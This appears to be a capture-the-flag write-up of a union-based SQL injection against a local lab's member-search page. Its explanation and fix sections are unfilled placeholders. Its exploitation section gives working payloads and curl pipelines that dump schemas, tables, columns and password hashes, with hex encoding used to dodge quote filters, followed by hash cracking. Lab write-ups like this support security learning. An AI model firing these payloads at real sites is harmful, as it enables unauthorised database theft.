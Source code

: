 # Union Based SQL Injection in search member page

## 📖 Vulnerability Explanation
[Explain what the vulnerability is, how it works, and why it's dangerous. Include conditions required for exploitation if applicable.]

## ⚙️ Exploitation Process

- Dump databases

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>//' | sed 's/<\/pre>//' | grep -v table | awk '{print $3}'
```

---

- Dump tables

```
0 UNION SELECT table_schema,table_name FROM information_schema.tables; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+table_schema%2Ctable_name+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Database   : /' | sed 's/Surname : /[-] Table name : /' | grep -v table
```

---

- Dump columns of table _users_

```
echo -n 'users' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x7573657273; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x7573657273%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Surname : //' | grep -v 'First name' | grep -v table
```

---

- Read the columns _comentaires_ and _countersign_

```
0 UNION SELECT Commentaire,countersign FROM Member_Sql_Injection.users; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+Commentaire%2Ccountersign+FROM+Member_Sql_Injection.users%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Commentaire : /' | sed 's/Surname : /[-] Countersign : /' | grep -v table
```

---

- Crack the hash and craft the flag using the steps provided

> IMAGE crakstation.net

```
echo -n 'fortytwo' | sha256sum
```

## 🧰 Additional Resources Used

We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
[Describe how to fix the vulnerability]

## ☝️🤓 Advanced explanation
In this case, we could get the data from the database on the response page. However, there are many other scenarios that require other techniques to dump the data.

- https://www.acunetix.com/websitesecurity/sql-injection2/

Apart from the channel used to retrieve the data, there are other techniques that can be used to bypass filtering and perform SQLi. We used this as quotes were not working in our injection scenario.

- https://portswigger.net/support/sql-injection-bypassing-common-filters